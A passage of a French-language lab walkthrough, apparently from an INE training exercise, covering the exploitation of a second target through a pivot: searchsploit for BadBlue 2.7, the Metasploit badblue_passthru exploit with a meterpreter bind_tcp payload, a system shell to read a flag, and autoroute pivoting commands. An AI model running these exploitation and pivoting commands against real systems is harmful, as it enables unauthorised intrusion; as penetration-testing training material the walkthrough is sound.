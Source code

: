 ### Phase 5 : Exploitation de la Deuxième Cible

#### Recherche d'exploits pour BadBlue
```bash
# Recherche d'exploits
searchsploit badblue 2.7

# Résultat : exploit/windows/http/badblue_passthru disponible
```

#### Exploitation via pivot
```bash
# Retour à msfconsole
background

# Configuration de l'exploit pour la deuxième cible
use exploit/windows/http/badblue_passthru

# IMPORTANT : Utiliser bind_tcp au lieu de reverse_tcp
set PAYLOAD windows/meterpreter/bind_tcp
set RHOSTS demo2.ine.local
set RHOST demo2.ine.local

# Vérification de la configuration
show options

# Lancement de l'exploit
exploit
```

### Phase 6 : Récupération des Objectifs

#### Exploration du système compromis
```bash
# Passage en shell système
shell

# Navigation et recherche de flags
cd /
dir
type flag.txt

# Exemple de flag : c46d12f28d87ae0b92b05ebd9fb8e817
```

## 🔧 Commandes Essentielles pour le Pivoting

### Gestion des Routes
```bash
# Ajouter une route
run autoroute -s NETWORK/MASK
run autoroute -s 192.168.1.0/24
run autoroute -s 10.0.0.0/16

# Lister les routes actives
run autoroute -p

# Supprimer une route
run autoroute -d NETWORK/MASK

# Supprimer toutes les routes
run autoroute -D
```
